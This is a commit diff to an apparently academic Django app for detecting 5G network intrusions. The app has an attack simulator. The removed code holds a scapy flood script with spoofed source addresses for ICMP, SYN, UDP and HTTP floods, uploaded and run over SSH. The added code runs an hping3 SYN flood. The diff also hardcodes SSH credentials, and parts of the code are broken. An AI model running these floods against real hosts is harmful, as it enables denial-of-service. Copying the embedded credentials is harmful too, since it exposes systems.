

Before and after one commit to Siong23/zero-touch-5g-sec-ai, a Django app: page / in a window 1280 px wide. Shown: the whole page at 74% size. After the commit the page ends 1089 px from the top, so only its background shows below. Run offline with Django 4.2, Linux system fonts and the light colour scheme.

Commit message:
Remove large files

```diff
--- a/backend/app/templates/index.html
+++ b/backend/app/templates/index.html
@@ -4,98 +4,28 @@
 <head>
     <meta charset="UTF-8">
     <meta name="viewport" content="width=device-width, initial-scale=1">
-    <title>AEGIS-5G</title>
-    <link rel="stylesheet" href="https://cdnjs.cloudflare.com/ajax/libs/font-awesome/6.0.0/css/all.min.css">
+    <title>5G Network Intrusion Detection</title>
 
     <style>
-        * {
-            box-sizing: border-box;
-            margin: 0;
-            padding: 0;
-        }
-
         body {
             margin: 0;
-            font-family: 'Georgia', serif;
-            background-color: #d4f4f8;
-            line-height: 1.6;
+            font-family: 'Segoe UI', sans-serif;
+            background: #d4f4f8;
+            padding: 40px;
         }
 
         .intro {
             position: relative;
-            background-image: url("./background.jpeg");
-            background-size: cover;
-            background-position: center;
-            height: 100vh;
             color: white;
-            display: flex;
-            flex-direction: column;
-            justify-content: center;
-            align-items: center;
             text-align: center;
-            padding-top: 60px;
-        }
-
-        .intro::before {
-            content: "";
-            position: absolute;
-            top: 0;
-            left: 0;
-            width: 100%;
-            height: 100%;
-            background-color: rgba(0, 0, 0, 0.6);
+            height: 20vh;
         }
 
         .intro-content {
             position: relative;
-            z-index: 1;
-            max-width: 800px;
-            padding: 0 20px;
         }
 
-        .intro h1 {
-            color: white;
-            font-size: 3.5rem;
-            margin-bottom: 20px;
-            text-shadow: 2px 2px 4px rgba(0, 0, 0, 0.5);
-            animation: fadeInUp 1s ease-out, float 3s ease-in-out infinite;
-        }
-
-        .intro p {
-            font-size: 1.25rem;
-            margin: 0 auto 30px;
-            text-shadow: 1px 1px 2px rgba(0, 0, 0, 0.5);
-            animation: fadeInUp 1s ease-out 0.3s both;
-        }
-
-        .button-group {
-            display: flex;
-            justify-content: center;
-            flex-wrap: wrap;
-            gap: 15px;
-            animation: fadeInUp 1s ease-out 0.6s both;
-        }
-
-        .button {
-            padding: 12px 30px;
-            font-size: 1.1rem;
-            color: white;
-            background-color: #007bff;
-            text-decoration: none;
-            border-radius: 6px;
-            transition: all 0.3s;
-            border: 2px solid tranparent;
-            margin: 10px 10px 10px 0;
-            display: inline-block;
-            animation: scaleIn 0.8s ease-out 0.9s both;
-        }
-
-        .button:hover {
-            background-color: #0056b3;
-            transform: translateY(-2px);
-        }
-
-        .attack, .ml-inference, .network {
+        .attack, .ml-inference {
             background-color: white;
             padding: 20px 20px 20px 20px;
             box-shadow: 0 0 10px rgba(214, 211, 211, 0.989);
@@ -215,46 +145,27 @@
 <body>
     <section class="intro">
         <div class="intro-content">
-            <h1>Welcome to AEGIS-5G</h1>
-            <p>Your advanced solution for efficient 5G Network Intrusion Detection System!</p>
-        </div>
-
-        <div class="button-group">
-            <a href="/backend/app/templates/index.html#network" class="button">Get Started</a>
-        </div>
-    </section>
-
-    <section class="network">
-        <h2>Open5gs Connection</h2>
-        <div class="info">
-            <p><strong>Connection:</strong> {{ connection_status|default:"Not connected" }}</p>
-        </div>
-
-        <div class="connection">
-            <table>
-                <tr>
-                    <td>
-                        <form method="post" action="{% url 'receive_network_data' %}">
-                            {% csrf_token %}
-                            <button class="connect-btn" type="submit">Connect to 5G Network</button>
-                        </form>
-                    </td>
-                </tr>
-            </table>
+            <h1>Welcome to the<br>5G Network Intrusion Detection System!</h1>
         </div>
     </section>
 
     <section class="attack">
         <h2>Trigger Attack</h2>
         <div class="info">
+            <p><strong>Connection:</strong> {{ connection_status|default:"Not connected" }}</p>
             <p><strong>Status:</strong> {{ attack_status|default:"Not Available" }}</p>
         </div>
 
+        <div class="connection">
+            <form method="post" action="{% url 'receive_network_data' %}">
+                {% csrf_token %}
+                <button class="connect-btn" type="submit">Connect to 5G Network</button>
+            </form>
+        </div>
+
         <div class="choose-attack">
-            <form method="post" action="{% url 'start_attack' %}">
-                {% csrf_token %}
             <label for="attack_type">Choose preferred attack type:</label>
-                <select name="attack_type" id="attack_type">
+            <select name="attack_type">
                 <option value="HTTPFlood">HTTP Flood</option>
                 <option value="ICMPFlood">ICMP Flood</option>
                 <option value="SYNFlood">SYN Flood</option>
@@ -264,16 +175,26 @@
                 <option value="UDPScan">UDP Scan</option>
                 <option value="SlowrateDoS">Slowrate DoS</option>
             </select>
+        </div>
 
         <table>
             <tr>
                 <td>
+                    <form method="post" action="{% url 'start_capture' %}">
+                        {% csrf_token %}
                         <button class="button" type="submit">Start</button>
+                    </form>
+                </td>
+
+                <td>
+                    <form method="post" action="{% url 'stop_capture' %}">
+                        {% csrf_token %}
+                        <button class="button" type="submit">Stop</button>
+                    </form>
                 </td>
             </tr>
         </table>
-            </form>
-        </div>
+
     </section>
 
     <section class="ml-inference">
--- a/backend/app/views.py
+++ b/backend/app/views.py
@@ -12,17 +12,15 @@ import os
 import io
 import csv
 import subprocess
-import tempfile
 import paramiko
 import glob
-import time
 
 from datetime import datetime, timedelta
 from collections import deque, defaultdict
 
 from scapy.layers.inet import IP, TCP, UDP, ICMP
 from scapy.layers.l2 import Ether
-from scapy.all import *
+from scapy.all import rdpcap
 
 from django import forms
 from django.shortcuts import render
@@ -191,7 +189,7 @@ def receive_network_data(request):
             ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy())
 
             # Modify the (HOST, USERNAME, PASSWORD) as needed to connect to the server
-            ssh.connect('192.168.0.115', username='open5gs', password='mmuzte123', timeout=30)
+            ssh.connect('192.168.0.115', username='server2', password='mmuzte123', timeout=30)
             _stdin, _stdout, _stderr = ssh.exec_command(" service open5gs-amfd status")
             output = _stdout.readlines()
 
@@ -264,236 +262,36 @@ def perform_detection(features):
         logger.error(f"Detection error: {e}")
         return {'model': 'Error', 'attack_type': 'N/A', 'severity_level': 'N/A'}
 
-# Simulate different types of network attacks by injecting attack into the targeted server - 5g network
+# Simulate different types of network attacks by injecting attack into the 5G Network
 class AttackSimulator:
     def __init__(self, host, username, password):
-        self.host = host or "192.168.0.115"
-        self.username = username or "server2"
+        self.host = host
+        self.username = username
         self.password = password or "mmuzte123"
 
-    # Trigger a DoS attack on the specified target IP
-    def trigger_dos_attack(self, target_ip, attack_type, duration=30, speed=50, port=80):
+    # Trigger a DoS attack (SYNFlood) on the specified target IP
+    def trigger_dos_attack(self, target_ip, attack_type="SYNFlood"):
         try:
-            if self.host in ("localhost", "127.0.0.1"):
-                return self.trigger_remote_attack(target_ip, attack_type, duration, speed, port)
-            else:
-                return self.trigger_remote_attack(target_ip, attack_type, duration, speed, port)
+            ssh = paramiko.SSHClient()
+            ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy())
+            ssh.connect(self.host, username=self.username, password=self.password, timeout=10)
+
+            attack_command = {
+                'SYNFlood': f'sudo hping3 -S -p 80 --flood {target_ip}'
+            }
+
+            command = attack_command.get(attack_type, attack_command['SYNFlood'])
+
+            if command:
+                stdin, stdout, stderr = ssh.exec_command(f'timeout 30 {command}')
+                logger.info(f"{attack_type} attack triggered on {target_ip}")
+
+                ssh.close()
+                return True
 
         except Exception as e:
             logger.error(f"Attack simulation error: {e}")
             return False
-
-    def trigger_remote_attack(self, target_ip, attack_type, duration, speed, port):
-        try:
-            ssh = paramiko.SSHClient()
-            ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy())
-            ssh.connect(self.host, username=self.username, password=self.password, timeout=15)
-
-            # Create flood script on remote host
-            flood_script = self._generate_flood_script()
-
-            # Upload flood script to remote host
-            with ssh.open_sftp() as sftp:
-                with sftp.file('/tmp/flood_attack.py', 'w') as f:
-                    f.write(flood_script)
-
-            ssh.exec_command('chmod +x /tmp/flood_attack.py')
-
-            # Build & run command
-            attack_command = self.build_attack_command(target_ip, attack_type, duration, speed, port, remote=True)
-            stdin, stdout, stderr = ssh.exec_command(f'cd /tmp && nohup {attack_command} > /tmp/attack.log 2>&1 &', timeout=5)
-            err = stderr.read().decode()
-            if err:
-                logger.error(f"Remote exec error: {err}")
-                ssh.close()
-                return False
-            logger.info(f"{attack_type} attack triggered on {target_ip} via SSH")
-            ssh.close()
-            return True
-
-        except Exception as e:
-            logger.error(f"Remote attack execution error: {e}")
-            return False
-
-    def trigger_local_attack(self, target_ip, attack_type, duration, speed, port):
-        try:
-            if os.geteuid() != 0:
-                logger.warning("Local injection usually requires root permissions.")
-
-            # Build packet based on attack type
-            pkt = self.build_packet(target_ip, attack_type, port)
-            if not pkt:
-                return False
-
-            # Calculate delay between packets
-            delay = 0 if speed == 0 else (1.0/speed)
-
-            # Start attack in a separate thread to avoid blocking
-            attack_thread = threading.Thread(target=self.execute_flood_attack, args=(pkt, duration, delay, attack_type, target_ip, port))
-            attack_thread.daemon = True
-            attack_thread.start()
-
-            return True
-
-        except Exception as e:
-            logger.error(f"Local attack execution error: {e}")
-            return False
-
-    def execute_flood_attack(self, pkt, duration, delay, attack_type, target_ip, port):
-        try:
-            start_time = time.time()
-            packet_count = 0
-
-            print(f"Starting {attack_type.upper()} flood on {target_ip}:{port} for {duration} seconds... ")
-
-            while(time.time() - start_time) < duration:
-                send(pkt, verbose=0, inter=delay, count=1)
-                packet_count += 1
-
-                # Update packet for variety (randomize source)
-                if attack_type in ["ICMPFlood", "SYNFlood", "UDPFlood"]:
-                    pkt = self.build_packet(target_ip, attack_type, port)
-
-            print(f"Attack finished after {duration} seconds. Send {packet_count} packets.")
-
-        except KeyboardInterrupt:
-            print("Attack stopped by user.")
-
-        except Exception as e:
-            logger.error(f"Error flood attack execution: {e}")
-
-    def build_packet(self, target_ip, attack_type, port):
-        try:
-            if attack_type == "ICMPFlood":
-                return IP(dst=target_ip, src=RandIP())/ICMP()/("X"*600)
-
-            elif attack_type == "SYNFlood":
-                return IP(dst=target_ip, src=RandIP())/TCP(sport=RandShort(), dport=port, flags="S")
-
-            elif attack_type == "UDPFlood":
-                return IP(dst=target_ip, src=RandIP())/UDP(sport=RandShort(), dport=port)/Raw(load="X"*600)
-
-            elif attack_type == "HTTPFlood":
-                http_payload = "GET / HTTP/1.1\r\nHost: {}\r\nConnection: keep-alive\r\n\r\n".format(target_ip)
-                return IP(dst=target_ip, src=RandIP())/TCP(sport=RandShort(), dport=port, flags="PA")/Raw(load=http_payload)
-
-            elif attack_type == "SYNScan":
-                return IP(dst=target_ip, src=RandIP())/TCP(sport=RandShort(), dport=RandShort(), flags="S")
-
-            elif attack_type == "UDPScan":
-                return IP(dst=target_ip, src=RandIP())/UDP(sport=RandShort(), dport=RandShort())
-
-            elif attack_type == "TCPConnectScan":
-                return IP(dst=target_ip, src=RandIP())/TCP(sport=RandShort(), dport=RandShort(), flags="S")
-
-            elif attack_type == "SlowrateDoS":
-                return IP(dst=target_ip, src=RandIP())/ICMP()/("x"*600)
-
-        except Exception as e:
-            logger.error(f"Error packet building: {e}")
-            return None
-
-    def build_attack_command(self, target_ip, attack_type, duration, speed, port, remote=False):
-        if remote:
-            #base_cmd = f"python3 flood_attack.py {target_ip}"
-
-            if attack_type == "ICMPFlood":
-                return f"hping3 --flood --rand-source -1 -p {port} {target_ip}"
-            elif attack_type == "SYNFlood":
-                return f"{base_cmd} -S -p {port} -t {duration} -s {speed}"
-            elif attack_type == "UDPFlood":
-                return f"{base_cmd} --udp -p {port} -t {duration} -s {speed}"
-            elif attack_type == "HTTPFlood":
-                return f"{base_cmd} -S -p 80 -t {duration} -s {speed}"
-            else:
-                return f"{base_cmd} -1 -t {duration} -s {speed}"
-        return None
-
-    def _generate_flood_script(self):
-        """Generate the flood script content for remote execution"""
-        return """
-        #!/usr/bin/env python3
-        from scapy.all import *
-        from colorama import Fore, init
-        import time, argparse, sys
-
-        # Initialize colorama
-        init(autoreset=True)
-
-        # Argument parser
-        parser = argparse.ArgumentParser(description="hping3-style Flood Script (Lab Only)")
-        parser.add_argument("target", help="Target IP address")
-
-        # Attack type (like hping3)
-        parser.add_argument("-1", dest="icmp", action="store_true",
-                            help="ICMP mode")
-        parser.add_argument("-S", dest="syn", action="store_true",
-                            help="SYN mode")
-        parser.add_argument("--udp", dest="udp", action="store_true",
-                            help="UDP mode")
-
-        # Options
-        parser.add_argument("-p", "--port", type=int, default=80,
-                            help="Target port (for SYN/UDP, default: 80)")
-        parser.add_argument("-t", "--time", type=int, default=60,
-                            help="Attack duration in seconds (default: 60)")
-        parser.add_argument("-s", "--speed", type=int, default=50,
-                            help="Packets per second (default: 50)")
-        parser.add_argument("--flood", action="store_true",
-                            help="Enable max flood mode (ignore speed, send as fast as possible)")
-
-        args = parser.parse_args()
-
-        target_ip = args.target
-        target_port = args.port
-        duration = args.time
-        pps = args.speed
-
-        # Decide attack type
-        if args.icmp:
-            attack = "icmp"
-        elif args.syn:
-            flood_type = "syn"
-        elif args.udp:
-            flood_type = "udp"
-        else:
-            flood_type = "icmp"  # default = ICMP (like hping3 -1)
-
-        # If flood mode, no delay
-        if args.flood:
-            delay = 0
-        else:
-            delay = 1.0 / pps if pps > 0 else 0
-
-        # Build the packet
-        if flood_type == "icmp":
-            pkt = IP(dst=target_ip, src=RandIP())/ICMP()/("X"*600)
-        elif flood_type == "syn":
-            pkt = IP(dst=target_ip, src=RandIP())/TCP(sport=RandShort(), dport=target_port, flags="S")
-        elif flood_type == "udp":
-            pkt = IP(dst=target_ip, src=RandIP())/UDP(sport=RandShort(), dport=target_port)/Raw(load="X"*600)
-
-        # Print start message
-        if args.flood:
-            print(Fore.GREEN + f"[+] Starting MAX {flood_type.upper()} flood on {target_ip}:{target_port if flood_type!='icmp' else ''} for {duration} seconds...")
-        else:
-            print(Fore.GREEN + f"[+] Starting {flood_type.upper()} flood on {target_ip}:{target_port if flood_type!='icmp' else ''} for {duration} seconds...")
-            if flood_type != "icmp":
-                print(Fore.GREEN + f"[+] Port: {target_port}")
-            print(Fore.GREEN + f"[+] Speed: {pps} packets/sec")
-
-        start_time = time.time()
-
-        try:
-            while (time.time() - start_time) < duration:
-                send(pkt, verbose=0, inter=delay, count=1)
-        except KeyboardInterrupt:
-            print(Fore.RED + "\n[!] Attack stopped by user.")
-            sys.exit(0)
-
-        print(Fore.RED + f"\n[!] Attack finished after {duration} seconds.")
-        """
-
 
 # Analyze attack severity levels using network features and patterns
 class SeverityLevelAnalyzer:
@@ -682,6 +480,8 @@ severity_analyzer = SeverityLevelAnalyzer()
 # Mitigation strategies based on attack type
 class AIMitigation:
 
+    if detection!="Benign":
+
         ssh = paramiko.client.SSHClient()
         ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy())
 
@@ -741,37 +541,19 @@ def start_attack(request):
     global target_ip, attack_type, attack_status
 
     if request.method == "POST":
-        attack_type = request.POST.get('attack_type')
-        target_ip = request.POST.get('target_ip', '192.168.0.165')
-        duration = int(request.POST.get('duration', 30))
-        speed = int(request.POST.get('speed', 50))
-        port = int(request.POST.get('port', 80))
+        attack_type = request.POST.get('attack_type', 'SYNFlood')
+        target_ip = request.POST.get('target_ip', '192.168.0.115')
 
+        config = OPEN5GS_CONFIG[0] if OPEN5GS_CONFIG else {}
         host = OPEN5GS_CONFIG.get('HOST', '192.168.0.115')
-        username = OPEN5GS_CONFIG.get('USERNAME', 'server2')
-        password = OPEN5GS_CONFIG.get('PASSWORD', 'mmuzte123')
+        username = config.get('USERNAME', 'server2')
+        password = config.get('PASSWORD', 'mmuzte123')
         simulator = AttackSimulator(host, username, password)
 
-        if simulator.trigger_dos_attack(target_ip, attack_type, duration, speed, port):
-            attack_status = f"Attack simulation done. {attack_type} attack injected on {target_ip}"
-
-            loop = asyncio.ProactorEventLoop()
-            asyncio.set_event_loop(loop)
-
-            capture = pyshark.LiveCapture(interface="Wi-Fi", eventloop=loop, output_file='./test.pcap')
-            capture.sniff(timeout=5)
-
-            if 'capture' in locals() and capture:
-                capture.close()
-
-                print(f"Packet capture success. Live capture saved.")
-
-            else:
-                return HttpResponseRedirect(reverse('home'))
+        if simulator.trigger_dos_attack(target_ip, attack_type):
+            attack_status = f"Attack simulation started. {attack_type} attack injected on {target_ip}"
         else:
             attack_status = "Failed to inject attack"
-
-        return HttpResponseRedirect(reverse('home'))
 
     return HttpResponseRedirect(reverse('home'))
 
@@ -857,51 +639,13 @@ def home(request):
                         row = next(reader)
                         data = [float(x) for x in row[:14]]
 
-                    elif filename.endswith(('.pcap', '.pcapng')):
-                        # Handle PCAP/PCAPNG format
+                    elif filename.endswith('.pcap'):
+                        # Handle PCAP format
                         file_content = uploaded_file.read()
-                        temp_filename = f"temp_{filename}"
-
-                        with open(temp_filename, "wb") as f:
+                        with open("file.pcap", "wb") as f:
                             f.write(file_content)
-
-                        try:
-
-                            packets = rdpcap(temp_filename)
-
-                            if len(packets) == 0:
-                                detection = "Error: No packets of data found."
-                                if os.path.exists(temp_filename):
-                                    os.remove(temp_filename)
-                                return render(request, 'index.html', {'form': form, 'detection': detection})
-
-                            packet = packets[0]
-
-                            capture_instance = NetworkTrafficCapture()
-                            features = capture_instance.extract_features(packet)
-
-                            if features:
-                                data = [
-                                    features.get('frame.time_relative', 0.0),
-                                    features.get('ip.len', 0),
-                                    features.get('tcp.flags.syn', 0),
-                                    features.get('tcp.flags.ack', 0),
-                                    features.get('tcp.flags.push', 0),
-                                    features.get('tcp.flags.fin', 0),
-                                    features.get('tcp.flags.reset', 0),
-                                    features.get('ip.proto', 0),
-                                    features.get('ip.ttl', 0),
-                                    features.get('tcp.window_size_value', 0),
-                                    features.get('tcp.hdr_len', 0),
-                                    features.get('udp.length', 0),
-                                    features.get('srcport', 0),
-                                    features.get('dstport', 0)
-                                ]
-
-                        except Exception as e:
-                            logger.warning(f"Error processing data packet: {e}")
-                            detection = f"Error: Processing file failed - {str(e)}"
-                            return render(request, 'index.html', {'form': form, 'detection': detection})
+                        packets = rdpcap("file.pcap")
+                        data = [float(len((x))) for x in packets[:14]]
 
                     elif filename.endswith('.npy'):
                         # Handle NPY format
@@ -1056,7 +800,7 @@ def home(request):
 
                 else:
                     attack_status = "Under Attack!"
-                    #mitigation = AIMitigation(detection, analysis_report)
+                    mitigation = AIMitigation.get_mitigation(detection, analysis_report)
                 # Will implement mitigation strategies
 
             except json.JSONDecodeError as e:
--- a/requirements.txt
+++ b/requirements.txt
@@ -11,8 +11,9 @@ paramiko
 matplotlib
 seaborn
 scikit-learn
+scikeras==0.13.0
 tensorflow==2.16.1
-scikeras==0.12.0
+keras==3.3.3
 flask
 flask-cors
 flask-expects-json
```
Also changed, not shown: backend/app/templates/background.jpeg (deleted), backend/app/templates/networking.jpg (deleted), 1 other file. Lines whose indentation alone changed are shown as unchanged.
